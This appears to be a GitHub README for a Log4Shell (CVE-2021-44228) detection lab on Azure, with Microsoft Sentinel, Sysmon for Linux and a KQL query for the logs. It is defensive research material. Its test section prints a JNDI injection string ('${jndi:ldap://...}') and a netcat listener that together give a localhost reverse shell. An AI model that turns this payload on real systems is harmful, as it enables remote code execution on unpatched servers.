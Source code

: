 # CVE-2021-44228 Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
* [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
    * It connects to the Microsoft Log Analytics workspace defined in the template.
* [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
* Linux Syslog Facilities collected
    * `user`
* [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
    * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
    * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)

## Validate Environment

SSH to Ubuntu box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running and ready to go:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```

### Run Application

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab